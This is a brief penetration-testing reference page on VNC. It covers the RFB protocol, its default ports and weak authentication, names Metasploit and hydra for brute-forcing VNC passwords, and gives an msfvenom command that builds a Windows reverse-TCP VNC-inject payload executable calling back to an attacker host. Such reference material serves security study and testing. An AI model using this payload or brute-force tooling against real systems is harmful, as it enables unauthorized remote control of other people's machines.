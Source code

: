 # VNC

VNC is an alternative to RDP that is platform independent. VNC uses the Remote Frame Buffer protocol \(RFB\). It is usually configured to run on ports 5900+N were N is the display number. Whilst RFB is not a secure protocol, VNC can be run through an SSH or VPN tunnel making it secure.

VNC hasn't been the most robust of products and there are numerous serious vulnerabilities in a range of different versions of the product.

VNC may require password but if used, it doesn't need a username. Metasploit has a VNC login brute force module \(auxiliary/scanner/vnc/vnc\_login\) and the command line application hydra can also brute force VNC passwords. A VNC-enabled payload can be created by msfvenom also:

```bash
msfvenom -p windows/vncinject/reverse_tcp LHOST=<Local Host IP address> LPORT=4444 -f exe > payload.exe
```

Finally, meterpreter can launch a VNC session by running "run vnc" within a meterpreter session.

